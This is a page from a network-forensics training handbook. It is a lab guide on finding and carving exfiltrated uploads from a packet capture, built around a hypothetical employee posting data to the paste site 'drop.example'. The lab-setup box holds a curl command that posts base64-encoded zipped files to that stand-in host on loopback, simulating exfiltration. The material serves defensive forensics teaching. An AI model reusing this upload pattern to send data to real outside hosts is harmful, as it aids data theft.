

repository: DFIDwiz-sketch/dfir-handbook · page: training/network-forensics/part-1/lab-carving-exfiltrated-data/index.html · generator: mkdocs

---
title: "1.13 — Lab Guide: Carving Exfiltrated Data"
tags:
  - training
  - network-forensics
  - wireshark
  - tshark
  - carving
---

# 1.13 — Lab Guide: Carving Exfiltrated Data { #lab-carving-exfiltrated-data }

!!! abstract "Scope of this lesson"
    - Find **the relevant TCP stream** in a full-packet pcap and isolate it
    - Extract **the uploaded content (payload)** from that stream, two different ways, and confirm with hashes that the results match
    - **Unwrap the extracted data in several steps** (multipart → Base64 → ZIP) back to the original files
    - Tell the "test upload" from the "real upload", and decide what you can state as fact about the recovered document
    - [Caution] if packets were retransmitted, simply concatenating packet contents produces the wrong file (tested directly)

!!! note "Lab environment and notation"
    **(Actual output)** comes from this environment's tcpdump 4.99.4, tshark 4.2.2, GNU coreutils (`base64`, `basenc`, `sha256sum`) and Info-ZIP `unzip`. The lab pcap was **captured** from real uploads sent with `curl` to a practice paste server I ran on loopback (`127.0.0.1`). The example names `drop.example` and `news.example` were set with the `Host` header, and the times are the actual capture times (2026-11-05 UTC). The uploaded document and table were invented for the lab, and the whole case is **(hypothetical)**. The "retransmission" file in section 8 is a variant **deliberately made** by duplicating one packet of the original pcap.

## 1. Logs only tell you "something was uploaded" { #why-carve }

**(Hypothetical)** A case similar to lesson 1.4. Proxy logs show that an employee in the research segment uploaded something twice to the paste site `drop.example`. All that's left in the log is `POST /post`, a `302` response, and the response sizes. As lesson 1.4, section 8 showed, **the uploaded content isn't in the log**. Fortunately, this site accepted unencrypted HTTP, and full packet capture was running on that segment.

The question: **what was uploaded?** Finding the answer in the pcap and turning it back into the original file is called **carving**. The word originally meant cutting file fragments out of unallocated disk space; on the network, it means cutting out just the part of a stream's bytes that is the file.

As an analogy, the post office's **counter log** (the proxy log) tells you only "this person sent a parcel to this address at this time". To know what was in it, you have to **open the parcel** (extract it from the pcap). Where the analogy differs: the network's "parcel" is wrapped in several layers (three in this lab), and the same piece can be **delivered twice** in transit. So you need a procedure that unwraps the layers in order and filters out duplicates.

!!! warning "[Caution] If it had been encrypted"
    Had the site used HTTPS, as in lesson 1.4's case, the pcap would hold only encrypted bytes, and this lab's method couldn't extract the content. You'd need records from one end of the connection (a TLS-intercepting proxy) or session keys, as in lesson 1.12, section 3.2. Before you start carving, check that the stream **is plaintext**.

## 2. How this lab is organised { #how-to-use }

The same structure as lesson 1.10 (objectives, preparation, lab, takeaways).

**Objectives**

1. Find and isolate the relevant TCP stream in a full-packet pcap.
2. Extract the payload from that stream.
3. Turn the extracted data back into the original files and judge their investigative value.

**Preparation**

- tcpdump, tshark (Wireshark), `base64`, `unzip` (or Python's `zipfile`), `sha256sum`
- The lab pcap `exfil.pcap` (60 packets). The starting lead: "there were two `POST`s to `drop.example`".

!!! example "To build the lab files yourself"
    In an empty folder: ① a tiny web server that answers `POST /post` with a `302` and a short `Location` (about 20 lines with Python's `http.server`); ② a file to upload (a few text files zipped and converted with `base64`); ③ capture with `tcpdump -i lo -w exfil.pcap 'tcp port 8099'` while sending requests such as `curl -H "Host: drop.example" -F "content=<bundle.b64" http://127.0.0.1:8099/post`. `-F "content=<file"` means "send the **contents** of the file as the value of the form field `content`". Run the practice server on your own loopback only.

Record a hash first, as soon as you receive it (lesson 1.11, section 4).

```bash
sha256sum exfil.pcap
```

**(Actual output)**

```text
ea9b3939a8bc04cc66e70422cfa2db98f9ae3a5dc68294f098843df26bfc1fa3  exfil.pcap
```
